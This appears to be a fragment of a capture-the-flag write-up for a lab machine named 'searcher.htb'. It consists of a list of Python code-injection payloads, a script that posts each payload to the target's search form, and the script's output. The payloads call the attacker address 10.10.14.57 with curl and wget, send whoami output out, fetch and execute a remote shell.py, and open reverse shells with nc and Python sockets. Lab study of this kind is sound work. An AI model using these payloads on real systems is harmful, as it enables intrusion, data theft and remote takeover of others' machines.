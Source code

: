 ```
";import os;os.system("curl 10.10.14.57");#"
"+import os;os.system("curl 10.10.14.57")+#"
';import+os;os.system("curl+10.10.14.57");#'
'+import+os;os.system("curl+10.10.14.57")+#'
'||import+os;os.system("curl+10.10.14.57")#'
'||import os;os.system("curl 10.10.14.57")#'
'__import__("os").system("curl 10.10.14.57")'
'+__import__('os').system('curl 10.10.14.57')+'
'+__import__('os').system('curl 10.10.14.57?$(whoami)')+'
'+__import__('os').system('curl http://10.10.14.57?$(whoami)')+'
'+__import__('os').system('curl http://10.10.14.57?$(whoami)')+'
'{}/{}{}{}?'.format('__im', 'port os\nos.', 'system("curl 10.10.14.57")', '') 
';import subprocess;subprocess.call(["curl", "10.10.14.57"]);#'
';__import__("os").system("wget -O /dev/null http://10.10.14.57:80/")#'
'__import__("os").system("nc 10.10.14.57 1234 -e /bin/bash")'
'";import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.57",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
"import requests;import base64;exec(requests.get('http://10.10.14.57:80/shell.py').text.encode().decode('base64'))"
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.57",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
'__import__("os").system("nc 10.10.14.57 1234 -e /bin/sh")'
```

### search.py
```python
import requests
import urllib.parse

url = "http://searcher.htb/search"
headers = {"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0", "Content-Type":"application/x-www-form-urlencoded"}

def do_request(payload):
        data = f"engine=Apple&query={payload}&auto_redirect="
        response = requests.post(url, headers=headers, data=data)
        print(f"{payload} - {response.status_code}")
with open("payloads.txt") as file:
    for line in file:
        payload = line.strip()
        do_request(payload)
        # Try encoded version, not necessary for this machine
        do_request(urllib.parse.quote(payload))
```

### Output
```bash
$ python3 search.py
'test' - 302
%27test%27 - 302
'+__import__('os').system('curl 10.10.14.57')+' - 302
%27%2B__import__%28%27os%27%29.system%28%27curl%2010.10.14.57%27%29%2B%27 - 404
'+__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.57 1234 >/tmp/f')+' - 302

```
